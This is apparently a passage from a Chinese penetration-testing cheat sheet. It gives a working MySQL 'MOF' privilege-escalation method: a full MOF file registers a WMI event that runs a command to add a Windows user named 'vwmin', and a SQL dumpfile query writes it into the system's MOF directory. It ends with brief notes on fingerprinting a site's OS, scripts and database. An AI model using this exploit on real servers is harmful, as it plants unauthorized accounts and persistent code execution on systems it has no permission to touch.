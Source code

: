 ## MySql提权--MOF

将以下代码保存为`nullevt.mof`

```mof
#pragma namespace("\\.\root\subscription")
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name  = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user vwmin vwmin /add\")";
};

instance of __FilterToConsumerBinding
{
Consumer   = $Consumer;
Filter = $EventFilter;
};
```

通过mysql查询将文件导入

```sql
select load_file('C:\...\nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';
```



## 信息收集

### 四大件

Wappalyzer chrome|firfox插件，探测站点软件

#### 如何判断网站服务器操作系统

大小写判断，Windows不区分大小写，Linux区分

#### 判断网站脚本格式

后缀常见地能看出动态和静态；后缀`html`可能是静态也可能是动态；

#### 判断网站数据库类型
